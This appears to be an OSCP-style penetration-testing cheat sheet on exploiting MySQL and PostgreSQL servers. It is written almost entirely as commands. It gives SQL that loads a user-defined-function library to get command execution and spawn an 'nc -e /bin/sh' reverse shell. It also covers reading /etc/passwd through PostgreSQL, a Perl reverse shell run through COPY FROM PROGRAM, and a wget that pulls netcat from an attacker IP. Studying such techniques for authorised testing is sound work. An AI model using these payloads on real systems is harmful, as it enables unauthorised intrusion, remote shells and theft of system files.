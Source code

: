 ### Metasploit lib_mysqludf_sys_64.so:
Although this doesnt directly use the metasploit console, it does count as using metasploit in the OSCP exam if you are thinking about sitting it. To use the [Metasploit raptor exploit](https://github.com/rapid7/metasploit-framework/blob/master/data/exploits/mysql/lib_mysqludf_sys_64.so), use the following commands:
```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';

https://github.com/rapid7/metasploit-framework/blob/master/data/exploits/mysql/lib_mysqludf_sys_64.so

Another way:

use mysql;
create table oneequalsone(line blob)
insert into oneequalsone values(load_file('/tmp/lib_mysqludf_sys_64.so'));
insert into oneequalsone values(load_file('/tmp/lib_mysqludf_sys_64.so'));
select * from oneequalsone into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so';
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
select sys_exec('nc -e /bin/sh 192.168.49.124 8080');
```
## Postgresql
This section details how postgresql servers can be interacted with and exploited. 
```
psql -U postgres -p 5437 -h 192.168.118.47
default password:
postgres
listing contents in directories:
select pg_ls_dir ('./');
select pg_ls_dir('/etc/passwd');
select file.read('/etc/passwd');
select pg_read_file('/etc/passwd');
pg machine nibbles

exploit:
https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5

DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.49.118:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';

OR

postgres=# \c postgres;
psql (12.2 (Debian 12.2-1+b1), server 11.7 (Debian 11.7-0+deb10u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "postgres" as user "postgres".
postgres=# DROP TABLE IF EXISTS cmd_exec;
NOTICE:  table "cmd_exec" does not exist, skipping
DROP TABLE
postgres=# CREATE TABLE cmd_exec(cmd_output text);
CREATE TABLE
postgres=# COPY cmd_exec FROM PROGRAM 'wget http://192.168.234.30/nc';
COPY 0
postgres=# DELETE FROM cmd_exec;
DELETE 0
```